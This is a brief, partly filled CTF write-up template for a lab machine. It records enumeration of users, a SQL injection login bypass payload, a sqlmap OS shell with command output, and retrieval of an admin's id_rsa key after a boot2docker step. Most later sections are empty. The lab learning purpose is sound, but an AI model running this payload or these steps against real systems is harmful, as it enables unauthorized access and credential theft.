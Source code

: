 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings

## External
### Enumeration
![](https://i.imgur.com/EirqPwf.png)
- Users
	- Theresa Winston
	- admin@megalogistic.com
#### PORT 443
VHOST Enum
![](https://i.imgur.com/IXZGCGU.png)
- Tried SQL injection payload on the subdomain and it worked
- ![](https://i.imgur.com/OWffOcp.png)
- with `' OR '1'='1'-- -` i got admin page.
- Then I added on sqlmap and it worked. i used shell on sqlmap
```shell
os-shell> uname -a
do you want to retrieve the command standard output? [Y/n/a]

[21:48:26] [INFO] retrieved: 'Linux bc56e3cc55e9 4.14.154-boot2docker #1 SMP Thu Nov 14 19:19:08 UTC 2019 x86_64 GNU...
command standard output: 'Linux bc56e3cc55e9 4.14.154-boot2docker #1 SMP Thu Nov 14 19:19:08 UTC 2019 x86_64 GNU/Linux'
os-shell>
```
### Gaining Access
![](https://i.imgur.com/bJ2Rduj.png)
it is docker instace then i tried boot2docker and it worked.
then goto `/c` get the admin id_rsa
## Internal
### Enumeration
`$enum$`

### Gaining Access


### Maintaining Access


# Random Notes